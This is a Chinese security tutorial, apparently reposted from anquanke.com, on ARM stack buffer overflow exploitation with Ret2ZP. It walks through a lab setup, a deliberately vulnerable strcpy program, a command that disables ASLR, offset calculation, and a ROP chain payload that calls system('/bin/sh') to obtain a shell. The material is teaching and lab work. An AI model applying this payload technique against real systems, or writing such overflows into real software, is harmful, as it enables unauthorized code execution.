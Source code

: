 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/245248)

> ARM 指令集架构，常用于嵌入式设备和智能手机中，是从 RISC 衍生而来的。

[![](https://p3.ssl.qhimg.com/t012822e5f8d132fa67.jpg)](https://p3.ssl.qhimg.com/t012822e5f8d132fa67.jpg)

0x01 前言
-------

ARM 指令集架构，常用于嵌入式设备和智能手机中，是从 RISC 衍生而来的。并且 ARM 处理器几乎出现在所有的流行智能手机中，包括 IOS、Android、Window Phone 和黑莓操作系统，并且在嵌入式设备中经常出现，如电视机、路由器、智能网关等。ARM 和 x86 指令集架构先比，ARM 由于起精简指令集，具有高效，低耗能等优点，可以去确保在嵌入式系统上提供出色的性能。

0x02 缓冲区溢出原理
------------

缓冲区是用于保存数据的临时内存空间。缓冲区溢出通常发生在写入缓冲区的数据大于缓冲区大小时，由于边界检查不足，缓冲区溢出并写入相邻的内存位置，这些位置可能是一些重要的数据或返回地址等。

并且局部变量一般来说在程序中是充当缓冲变量或者缓冲区。

在缓冲区溢出中，我们的主要目的是用一些手段来修改返回地址，通过控制链接寄存器（LR）来控制程序执行流。

一旦我们控制了返回地址，返回地址将赋值给 PC 寄存器，劫持了 PC, 你就掌控了一切。

0x03 ARM 和 X86 对缓冲区溢出利用的区别
--------------------------

当一个程序开启 NX 保护之后，X86 架构下，首先想到的是 Ret2Libc 来绕过 NX ，篇幅有限，这里 Ret2Libc 就不展开说了。

但是在 ARM 架构中，Ret 到 Libc 是无法做到的，因为**在 ARM 处理器中，函数的参数是通过寄存器传递的**，而不是如 X86，函数的参数通过堆栈传递。因此在 ARM 实现和 x86 中 Ret2Libc 一样的效果，我们需要将参数放入到寄存器中。

这里使用到了 **Ret2ZP 技术**（Return To Zero Prevention）

举个例子，我们在栈溢出利用中，一般的思路是构造 gadgets，来执行 system(“/bin/sh”) 来获取 shell。 但是在构造 gadgets， 需要将 “/bin/sh” 传递到 system 函数执行时调用的寄存器 R0 中。

这里在 Ret2ZP 中常用的在 libc 中的 gadgets 有以下这些，是实际利用时，并不是每个都有用，选在实际环境中可以使用的就行。  
erand48

[![](https://p3.ssl.qhimg.com/t01a399bc3bba57d518.png)](https://p3.ssl.qhimg.com/t01a399bc3bba57d518.png)

lrand48

[![](https://p5.ssl.qhimg.com/t01448b3aebb4aaa91f.png)](https://p5.ssl.qhimg.com/t01448b3aebb4aaa91f.png)

seed48

[![](https://p2.ssl.qhimg.com/t01473165bf24ea44d9.png)](https://p2.ssl.qhimg.com/t01473165bf24ea44d9.png)

0x04 环境搭建
---------

这里使用的的 Raspbian 虚拟机，下载安装方法搜索引擎有很详细的文章。这里说明一下我搭建过程遇到的问题。

首先是在 Raspbian 虚拟机中 下载 gdb , 建议手动编译。因为 apt 下载的 gdb 是版本小于 8.1。在实际 gdb 调试会出现如下图所示问题

[![](https://p4.ssl.qhimg.com/t017caa8bae3be83ee0.png)](https://p4.ssl.qhimg.com/t017caa8bae3be83ee0.png)

解决方案：这是 gdb 因 ARM 程序内存损坏而造成的错误，最好的解决方式是安装 gdb-8.1 版本。[https://github.com/hugsy/gef/issues/206](https://github.com/hugsy/gef/issues/206)

编译完之后。运行 gdb 会出现如下错误

```
Python Exception <type 'exceptions.ImportError'> No module named gdb: 
/usr/local/bin/gdb: warning: 
Could not load the Python gdb module from `/home/pi/gdb-8.2/=/usr/share/gdb/python'.
Limited Python support is available from the _gdb module.
Suggest passing --data-directory=/path/to/gdb/data-directory.


```

解决方案：这是因为在编译的的时候需要指定编译环境是 python3.5，默认是 2.5，因此需要 ./configure —prefix=/usr —with-system-readline —with-python=/usr/bin/python3.5m 。

在编译的过程中还有可能会出现如下图所示的缺少库文件 “/usr/bin/ld: cannot find -lreadline “

[![](https://p2.ssl.qhimg.com/t01ed424667bbcc29c9.png)](https://p2.ssl.qhimg.com/t01ed424667bbcc29c9.png)

解决方案：sudo apt-get install libreadline6-dev

然后就是安装 gef 插件了。QAQ

0x05 缓冲区溢出实例
------------

### 1）漏洞代码

这里用一个最简单的代码来学习 Ret2ZP 技术，并且缓冲区溢出点特别明确，有 strcpy 函数将输入的大于 buf 分配内存大小的参数传入到固定大小的 buf 缓冲区，从而造成缓冲区溢出。

漏洞代码

```
#include <stdio.h>
#include <stdlib.h>

void do_echo(char* buffer)
{
    char buf[10];
    strcpy(buf,buffer);
}
int main(int argc, char **argv)
{
    do_echo(argv[1]);
    return(0);
}


```

关闭 ALSR 保护

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

编译代码

`pi[@raspberrypi](https://github.com/raspberrypi "@raspberrypi"):~$ gcc -fno-stack-protector echo_arm1.c -o echo_arm`

查看编译后文件的保护情况。

[![](https://p0.ssl.qhimg.com/t01f6a35715ae1ee790.png)](https://p0.ssl.qhimg.com/t01f6a35715ae1ee790.png)

### 2） 确定溢出点并计算偏移

使用 gdb 打开文件调试，并且查看文件中函数的汇编代码，如下图所示。

[![](https://p3.ssl.qhimg.com/t01dac1efa3790dbb18.png)](https://p3.ssl.qhimg.com/t01dac1efa3790dbb18.png)

利用 pattern.py 生成字符串

[![](https://p0.ssl.qhimg.com/t01be49073c46fd392b.png)](https://p0.ssl.qhimg.com/t01be49073c46fd392b.png)

这里在 do_echo 函数的 0x00010468 处打断点。

运行程序并将 pattern 生成的字符串输入可以看到在执行到 0x00010468 处，R11 寄存器中值是”a5Aa”, 接下来计算出栈溢出的偏移地址

[![](https://p3.ssl.qhimg.com/t018217e8a82c3fc0cb.png)](https://p3.ssl.qhimg.com/t018217e8a82c3fc0cb.png)

经过计算，buf 缓冲区溢出到返回地址需要 16 个字节，也就是说劫持 PC 寄存器需要 16 个 padding。

[![](https://p4.ssl.qhimg.com/t0163c27219c2e2dba6.png)](https://p4.ssl.qhimg.com/t0163c27219c2e2dba6.png)

### 3) 构造 ROP Chain

这里利用 seed48 代码片段，当然也可以用我上面说的 lrand48。这里使用 seed48 比 lrand48 的 gadgets 要复杂一点点。

[![](https://p3.ssl.qhimg.com/t0141014bd3c224fc14.png)](https://p3.ssl.qhimg.com/t0141014bd3c224fc14.png)

可以看到 R11 寄存器后的值

[![](https://p5.ssl.qhimg.com/t01a2cdaf63fafd1cfc.png)](https://p5.ssl.qhimg.com/t01a2cdaf63fafd1cfc.png)

查找 system 函数地址 0xb6eab154

[![](https://p1.ssl.qhimg.com/t015184872b80de6845.png)](https://p1.ssl.qhimg.com/t015184872b80de6845.png)

查找 “/bin/sh” 所在的地址 0xb6f91944

[![](https://p0.ssl.qhimg.com/t017e3b54514febe8ce.png)](https://p0.ssl.qhimg.com/t017e3b54514febe8ce.png)

构造 ROP chain 如下图所示，根据 ARM 的特性，system 函数需要的参数需要 R0 寄存器传入到 system。因此需要将 “/bin/sh” 字符串的地址放入到 R0 寄存器中，这里 gadgets1 首先将栈上 “/bin/sh” 的地址传入到 R4 寄存器中，由于在 gadgets2 中 R0=R4+6 ，因此这个时候需要 0xb6f91944 减 6 ，然后在 PC 寄存器中放入 gadgets ，在执行 gadgets2 的过程中，会把 “/bin/sh” 正确的地址传入到 R0，然后输入 padding(“DDDD” ) 传入到 R4 , 再执行 system 函数从而获取 shell 。

[![](https://p0.ssl.qhimg.com/t01bb94c44e0754487b.png)](https://p0.ssl.qhimg.com/t01bb94c44e0754487b.png)

这里在构造的 payload 的时候，需要注意大小端的问题，这里文件是小端的，在小端字节序中，最低有效字节存储在最低地址。

AAAABBBBCCCCDDDD\x88\x30\xea\xb6\x3e\x19\xf9\xb6\x84\x30\xea\xb6DDDD\x54\xb1\xea\xb6

将构造的 payload 发送过去

```
 r `printf "AAAABBBBCCCCDDDD\x88\x30\xea\xb6\x3e\x19\xf9\xb6\x84\x30\xea\xb6DDDD\x54\xb1\xea\xb6"`


```

可以看到栈上成功覆盖到我们构造的 payload

[![](https://p2.ssl.qhimg.com/t0123e3065bef19b14e.png)](https://p2.ssl.qhimg.com/t0123e3065bef19b14e.png)

继续往下执行就可以拿到 shell

[![](https://p1.ssl.qhimg.com/t0190075d9811779970.png)](https://p1.ssl.qhimg.com/t0190075d9811779970.png)

0x06 总结
-------

Ret2ZP 技术，和 Ret2lib 的原理相差不大，但是由于 ARM 处理器的特性，函数执行的过程中，需要从 R0~R3 寄存器中获取参数，因此在构造 ROP 的时候，需要多考虑一点是将函数参数的值传入到 R0~R3 寄存器中。